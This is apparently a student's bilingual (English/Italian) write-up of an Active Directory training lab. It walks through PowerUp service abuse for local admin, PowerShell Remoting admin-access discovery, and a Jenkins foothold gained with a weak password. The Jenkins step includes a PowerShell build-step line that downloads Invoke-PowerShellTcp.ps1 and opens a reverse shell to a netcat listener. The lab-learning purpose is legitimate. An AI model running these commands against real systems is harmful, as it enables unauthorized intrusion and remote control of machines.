

> [!INFO] Lab objectives
> 1. Exploit a vulnerable service on `dcorp-student555` to obtain local administrator privileges.
> 2. Identify a domain computer on which `student555` already has local administrator access.
> 3. Investigate the Jenkins service on `172.16.3.11:8080` (`dcorp-ci`) and obtain a shell in the context of the Jenkins build process.
>

  

## Attack flow




  

---
  

## 1. Prepare the PowerShell environment

```powershell
. C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

. C:\AD\Tools\PowerView.ps1
```

```powershell
. C:\AD\Tools\PowerUp.ps1
```
- Loads PowerUp, a PowerShell toolkit for identifying Windows local privilege-escalation misconfigurations, especially services and permissions.

  

> [!NOTE] 
> PowerUp è diverso da PowerView: **PowerView** aiuta a enumerare Active Directory, mentre **PowerUp** cerca configurazioni locali che possono portare a privilegi più elevati sulla macchina corrente.

  

---

## 2. Objective 1 — Local privilege escalation on `dcorp-student555`
### 2.1 Enumerate privilege-escalation opportunities
Run the PowerUp checks:
```powershell
Invoke-AllChecks
```
- ![[Pasted image 20261118104754.png|612]]
- It runs PowerUp's collection of local checks to look for potentially exploitable service configurations and other privilege-escalation opportunities.

**Lab observation:** The output identifies an issue involving **Abyss WebServer** (`AbyssServer`), described in the notes as an **unquoted service path**. The service can also be restarted.


> [!NOTE] 
> Con `Invoke-AllChecks` cerchiamo vulnerabilità o configurazioni rischiose sul computer locale. Nei tuoi appunti emerge il servizio `AbyssServer`. 
> Il dato importante è capire **quali permessi rendono sfruttabile il servizio**, non semplicemente vedere il nome nella lista.

### 2.2 Understand the service misconfiguration

> Abyss WebServer has an unquoted path and can be restarted. If an executable named `Abyss.exe` is placed under `C:\WebServer\` and the service is restarted, Windows may execute it.

>[!important] If a Windows service's executable path contains spaces and is not quoted, Windows may interpret parts of the path as candidate executable names. Exploitability depends on the **exact service path**, **directory write permissions**, and **ability to trigger service startup**.

> [!NOTE] 
> Un *unquoted service path* può creare un'ambiguità nel percorso dell'eseguibile se contiene spazi.
> 
Ma non basta: devi poter scrivere nel percorso pertinente e far riavviare il servizio. 

### 2.3 Inspect the PowerUp function's examples
  
```powershell
help Invoke-ServiceAbuse -Example
```
- ![[Pasted image 20261118110419.png|461]]
  

**What it does:** Displays usage examples for the `Invoke-ServiceAbuse` function.

> [!NOTE] 
> Qui consultiamo gli esempi prima di eseguire la funzione, per capirne sintassi ed effetto. 
> Il nostro obiettivo nel laboratorio è ottenere l'aggiunta di `dcorp\student555` agli amministratori locali.

### 2.4 Verify the current user

```powershell
whoami
```
- ![[Pasted image 20261118110636.png]]

> [!NOTE] 
> Prima dell'operazione controlliamo quale utente sta eseguendo la shell. È utile per confrontare lo stato prima e dopo e per non confondere l'identità del processo con i gruppi a cui l'utente appartiene.

### 2.5 Run the service-abuse 
```powershell
Invoke-serviceAbuse -Name AbyssServer -username "dcorp\student555" -verbose
```
- ![[Pasted image 20261118110744.png]]

**Command breakdown:**

| Parameter                      | Meaning                                                                                 |
| ------------------------------ | --------------------------------------------------------------------------------------- |
| `Invoke-ServiceAbuse`          | PowerUp function used in the lab against a service misconfiguration.                    |
| `-Name AbyssServer`            | Selects the Abyss WebServer service.                                                    |
| `-username "dcorp\student555"` | Specifies the domain user that the function is intended to add to local Administrators. |
| `-verbose`                     | Requests additional diagnostic output.                                                  |

> [!NOTE] 
> Questo è il passaggio di escalation locale documentato: PowerUp opera sulla configurazione del servizio vulnerabile e, nel laboratorio, il risultato è l'aggiunta di `dcorp\student555` al gruppo degli amministratori locali. 
> Non equivale a ottenere i privilegi di Domain Admin: il cambiamento riguarda questa macchina.

### 2.6 Validate local administrator membership
```powershell
net localgroup Administrators
```
- ![[Pasted image 20261118110857.png]]

It lists members of the local Administrators group. The expected evidence is the presence of `dcorp\student555`.


> [!NOTE] 
> Qui verifichiamo il risultato invece di limitarci a fidarci del messaggio dello script. 
> Se compare `dcorp\student555`, abbiamo la prova della **membership nel gruppo Administrators locale**. 

---

## 3. Objective 2 — Identify other computers where `student555` is a local administrator

### 3.1 Load the PowerShell Remoting enumeration function
  
```powershell
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
```
- Makes the `Find-PSRemotingLocalAdminAccess` function available in the current PowerShell session.

### 3.2 Enumerate accessible computers

```powershell
Find-PSRemotingLocalAdminAccess -verbose
```
- ![[Pasted image 20261118111337.png]]

  
**It checks computers using PowerShell Remoting-related access tests to discover where the current credentials may allow administrative remote access.**


>[!warning] 
>It uses a different mechanism from RPC/SMB-based access checks; it can be more suitable in some environments, though it is not inherently silent or guaranteed to be less detectable.


> [!important] Ora non stiamo più cercando una vulnerabilità sul nostro computer: vogliamo capire **dove `student555` possiede già accesso amministrativo** all'interno del dominio. 
> Il controllo basato su PowerShell Remoting prova un percorso di accesso remoto. Il risultato va sempre validato sul sistema che ci interessa.

### 3.3 Validate access to `dcorp-adminsrv`

```powershell
winrs -r:dcorp-adminsrv cmd
```
- ![[Pasted image 20261118111519.png|523]]

It starts a remote command shell on `dcorp-adminsrv` using WinRS/WinRM, if authentication and authorization succeed.

To close the remote shell:
```cmd
exit
```

> [!NOTE] 
> Il risultato dell'enumerazione ci porta a `dcorp-adminsrv`. 
> Con `winrs` verifichiamo concretamente se il nostro utente può aprire una shell remota su quel server. 


---
## 4. Objective 3 — Jenkins foothold on `dcorp-ci` (`172.16.3.11:8080`)

### 4.1 Visit Jenkins and inspect available user
Open the Jenkins web interface:
```text
http://172.16.3.11:8080
```
- ![[Pasted image 20261118112329.png]]

The **People** view shows three users. 

**We identify a user named `builduser` and we can also underatand that this types of account can configure build steps in jenkins.**

**Why does this matter?** Jenkins build steps may execute commands on the controller or an agent, under the operating-system identity of the build process. This can make excessive Jenkins permissions a significant security issue.

  

> [!NOTE] 
> Jenkins è un sistema di automazione e CI/CD. 
> La differenza importante è tra il **Jenkins user** che può modificare un job e l'**account Windows** che esegue quel job. 
> 
> Se possiamo configurare un build step che esegue comandi, possiamo ottenere esecuzione nel contesto del processo Jenkins o del suo agente. Questo non dimostra automaticamente privilegi amministrativi locali.

  

### 4.2 Authentication observation: `builduser`
We can try to bruteforce `builduser` and  after trying a blank password and then the username (`builduser`) itself as the password we are in.

![[Pasted image 20261118112445.png|476]]

![[Pasted image 20261118112709.png|591]]


> [!NOTE] 
> Negli appunti `builduser` risulta accessibile con una password debole. 
> 
> La vulnerabilità non è soltanto la password: il problema diventa più grave perché l'account può modificare passaggi di build che eseguono comandi. 
> 
> Il tipo di accesso dipende dai permessi effettivi di Jenkins e dall'account di sistema che lancia il job.

### 4.3 Open the project configuration  
The original workflow is:
**Jenkins project → Configure → Build step**

![[Pasted image 20261118112825.png]]

![[Pasted image 20261118112924.png]]

### 4.4 Build-step command 
Now we want to force the jenkins service to connect to a reverse shell on our machine:

```powershell
powershell iex (iwr -UseBasicParsing http://172.16.100.55/Invoke-PowerShellTcp.ps1);power -Reverse -IPAddress 172.16.100.55 -Port 443
```
- ![[Pasted image 20261118113222.png]]
 
It downloads PowerShell script content from the lab workstation and attempts to initiate a reverse TCP shell to that workstation.

  
> [!NOTE] 
> Questa è la parte che trasforma l'accesso alla dashboard Jenkins in un possibile accesso al sistema operativo. 
> 
> Il comando di build richiama PowerShell, recupera uno script dalla macchina di laboratorio e tenta di stabilire una connessione in uscita verso un listener. 
> La shell così ottenuta eredita i privilegi del processo che esegue la build, **non necessariamente quelli di Administrator**.

### 4.5 Prepare the lab workstation's listener and HTTP server

In our `student` shell (with the admin rpivileges) we set Netcat listener on TCP port `443`:

```cmd
C:\AD\Tools\netcat-win32-1.12\nc64.exe -lvp 443
```

Now we need to serve `Invoke-PowerShellTcp.ps1` through **HFS (HTTP File Server)** from the lab tools directory, so the URL in the build step can retrieve it.
- ![[Pasted image 20261118113528.png|591]]

  

**Roles of the two services:**

| Component                     | Purpose                                                           |
| ----------------------------- | ----------------------------------------------------------------- |
| HFS on `172.16.100.55`        | Provides the PowerShell script over HTTP.                         |
| Netcat on port `443`          | Receives the outbound TCP connection initiated by the build step. |
| Jenkins on `172.16.3.11:8080` | Executes the configured build step.                               |


### 4.6 Save the Jenkins configuration and run the build

The sequence to force jenkins to run our malicious code is **Save → Build Now** (or the equivalent build action available in the dashboard).  

![[Pasted image 20261118113606.png]]

  
![[Pasted image 20261118125251.png]]


> [!NOTE] 
> Salvando la configurazione rendiamo effettivo il nuovo build step. 
> 
> L'esecuzione del job fa eseguire il comando al processo Jenkins o all'agente configurato per il job. Una connessione in arrivo sul listener è l'evidenza dell'esecuzione del payload nel contesto di quel processo.

### 4.7 Observe the shell on `dcorp-ci`

![[Pasted image 20261118125321.png]]


> [!IMPORTANT] Access vs. privilege level
> Obtaining a shell on `dcorp-ci` proves a code-execution foothold in the Jenkins job's security context. It does **not** alone prove that the shell is a local administrator. 
> 

> [!NOTE] 
> A questo punto abbiamo ottenuto una shell associata all'esecuzione della build Jenkins su `dcorp-ci`. 


### 4.8 Lab networking note
  
> [!IMPORTANT] Disable the firewall on the student VM.
>![[Pasted image 20261118125237.png|484]]


---

## 5. Summary — Three separate objectives

| Objective                              | Starting point                | Key technique                                         | Evidence of result                                                                                |
| -------------------------------------- | ----------------------------- | ----------------------------------------------------- | ------------------------------------------------------------------------------------------------- |
| 1. Local privilege escalation          | `dcorp-student555`            | PowerUp and `AbyssServer` service abuse               | `net localgroup Administrators` shows `dcorp\student555`.                                         |
| 2. Domain local-admin access discovery | Student user's domain context | `Find-PSRemotingLocalAdminAccess` followed by `winrs` | Remote command shell on `dcorp-adminsrv`.                                                         |
| 3. Jenkins foothold                    | Jenkins at `172.16.3.11:8080` | Weak Jenkins account + configurable build step        | Shell obtained from the build context on `dcorp-ci`; admin privileges need separate verification. |

  
> [!NOTE] 🇮🇹 Riepilogo finale
> Questi sono **tre obiettivi distinti**, non tre metodi per arrivare allo stesso server:
> 
> 1. Sul computer `dcorp-student555` sfruttiamo una configurazione del servizio per far entrare `student555` negli amministratori locali.
> 
> 2. Con PowerShell Remoting cerchiamo su quali altri computer `student555` ha accesso e verifichiamo `dcorp-adminsrv`.
> 
> 3. Tramite Jenkins otteniamo una shell sul sistema di build associato a `dcorp-ci`. L'eventuale privilegio amministrativo va dimostrato separatamente.
